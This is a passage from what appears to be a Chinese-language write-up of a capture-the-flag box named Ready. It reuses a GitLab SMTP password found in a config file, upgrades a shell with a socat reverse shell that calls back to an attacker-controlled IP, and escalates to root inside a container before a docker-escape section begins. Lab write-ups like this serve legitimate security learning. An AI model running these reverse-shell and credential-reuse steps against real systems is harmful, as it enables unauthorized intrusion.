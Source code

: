 留意这一行
```
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

尝试提权，提示只能在terminal下执行su命令
```
git@gitlab:/tmp$ su root
su root
su: must be run from a terminal
git@gitlab:/tmp$ 

```

我们需要提升一个完整的终端


## 提升完整shell

(这里其实是我打OSCPlab学到的方法。。)

参考这里的[方法](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)


靶机如果没有socat，到这里下载二进制文件：https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat


kali:
```
socat file:`tty`,raw,echo=0 tcp-listen:443
```

靶机
```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.119.187:443
```

现在我们收到一个完整的shell，可以执行```su```命令
```
┌──(root💀kali)-[~/htb/Ready]
└─# socat file:`tty`,raw,echo=0 tcp-listen:443
git@gitlab:/tmp$ su
Password: 
root@gitlab:/tmp# whoami
root
root@gitlab:~# id
uid=0(root) gid=0(root) groups=0(root)
root@gitlab:~# 

```

但是没有发现root.txt，因为我们在一个容器内

## docker逃逸

查看```docker-compose.yml```,这个是docker的配置文件

